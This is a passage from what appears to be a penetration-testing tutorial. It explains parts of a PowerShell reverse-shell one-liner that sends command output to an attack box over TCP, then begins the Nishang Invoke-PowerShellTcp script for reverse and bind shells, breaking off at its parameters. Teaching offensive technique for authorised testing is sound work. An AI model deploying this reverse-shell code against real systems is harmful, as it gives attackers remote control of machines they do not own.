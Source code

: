 ```cmd-session
$sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
```
- this makes the interactive shell prettier because it shows de current working directory
```cmd-session
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```
- this makes the TCP client initiate a PowerShell session on the attack box
```cmd-session
$client.Close()"
```
- this is the method used when we terminate the session

The one-liner above can also be executed as a `.ps1` PowerShell script:
```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,
```